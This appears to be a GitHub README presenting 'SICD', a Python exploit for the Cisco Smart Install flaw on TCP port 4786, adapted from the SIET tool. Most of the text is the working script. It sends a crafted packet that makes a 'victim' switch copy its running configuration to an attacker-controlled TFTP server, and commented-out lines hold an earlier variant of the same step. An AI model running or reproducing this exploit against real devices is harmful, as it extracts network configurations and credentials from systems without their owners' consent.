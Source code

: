 # SICD
Cisco Smart Install Exploit

Cisco Smart Install is accessible through TCP port 4786 and is vulnerable to attack.  The vendor advisory can be read here

https://tools.cisco.com/security/center/content/CiscoSecurityAdvisory/cisco-sa-20170214-smi

Existing exploits, e.g. Sab0tag3d SIET, have been published to exploit this vulnerability.

https://github.com/Sab0tag3d/SIET

This exploit (SICD - Smart Install Config Dumper) was adapted from the work of Sab0tag3d specifically for obtaining the running config from a vulnerable Cisco device.

```python
#!/usr/bin/python
# Smart Install Config Dumper

import socket
import time

# Vulnerable Cisco device
victim_ip = '10.1.2.3'
# IP of your TFTP server
attack_ip = '192.168.2.200'

conn = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
conn.settimeout(5)
try:
   conn.connect((victim_ip, 4786))

#   c1 = 'copy system:running-config flash:/config.text'
#   c2 = 'copy flash:/config.text tftp://' + attack_ip + '/' + victim_ip + '.conf'
#   c3 = ''
#   sTcp = '0' * 7 + '1' + '0' * 7 + '1' + '0' * 7 + '800000' + '40800010014' + '0' * 7 + '10' + '0' * 7 + 'fc994737866' + '0' * 7 + '0303f4'
#   sTcp = sTcp + c1.encode('hex') + '00' * (336 - len(c1))
#   sTcp = sTcp + c2.encode('hex') + '00' * (336 - len(c2))
#   sTcp = sTcp + c3.encode('hex') + '00' * (336 - len(c3))
   c1 = 'copy system:running-config tftp://' + attack_ip + '/' + victim_ip + '.conf'
   sTcp = '0' * 7 + '1' + '0' * 7 + '1' + '0' * 7 + '800000' + '40800010014' + '0' * 7 + '10' + '0' * 7 + 'fc994737866' + '0' * 7 + '0303f4'
   sTcp = sTcp + c1.encode('hex') + '00' * (336 - len(c1))
   sTcp = sTcp + '00' * 336 + '00' * 336
   
   print('[INFO]: Sending config dumper request to %s ' % victim_ip)
   conn.send(sTcp.decode('hex'))
   conn.close()
   print('[INFO]: Waiting 30 seconds for TFTP upload completion')
   time.sleep(30)

except socket.error, exc:
   print "Socket error : %s" % exc
```
